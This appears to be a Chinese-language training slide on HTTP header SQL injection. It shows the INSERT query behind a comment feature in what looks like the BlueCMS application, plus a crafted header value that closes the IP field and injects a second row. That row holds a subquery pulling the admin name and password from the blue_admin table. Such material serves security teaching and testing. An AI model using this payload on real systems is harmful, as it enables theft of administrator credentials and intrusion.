

# HTTP头注入
exp构造分析

INSERT INTO blue_comment (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '1', '0', '1', '6', 'test', '1480988752', '111'', '1')
a','xxx'),('','1','1','1','2',(select concat(admin_name,0x3a,pwd) from blue_admin limit 0,1),'1645457407','sss','1')#